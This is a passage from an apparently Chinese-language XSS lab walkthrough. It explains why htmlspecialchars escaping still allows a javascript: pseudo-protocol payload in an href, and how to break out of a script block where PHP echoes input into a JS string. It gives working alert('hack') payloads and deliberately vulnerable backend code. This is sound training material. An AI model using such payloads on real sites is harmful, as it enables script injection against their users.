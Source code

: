 可得，源码中不但使用了函数 `htmlspecialchars()`，并传入了参数`ENT_QUOTES`，即导致符号 `<`、`>`、`"`、`'`、`&`均会被转义为 HTML 实体，所以这里无法使用**闭合标签**、**闭合属性**或**注入新标签**等 XSS 攻击方法，**But 要知道 href 属性支持使用 JavaScript 伪协议！！！**

解题思路：使用 JavaScript 伪协议

```js
javascript:alert('hack')
```



## 十. XSS之`js`输出

输入数据并回车后，分析前端页面中，由后端服务器返回的 JS 代码：

```js
<script>
    $ms='demo';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
			// alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }
    }
</script>
```

顺手粘下上述代码所对应的后端代码：

```php
<script>
    $ms='<?php echo $jsvar;?>';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
		   // alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }
    }
</script>
```

可以发现输入的数据赋值给了变量 `$ms`，并以单引号闭合，故解题思路很明了了：

* 首先使用 </script> 闭合源码中的 <script>
* 其次注入 JS 代码 <script>alert('hack')</script>

```js
</script><script>alert('hack')</script>
```



## 十一. 总结
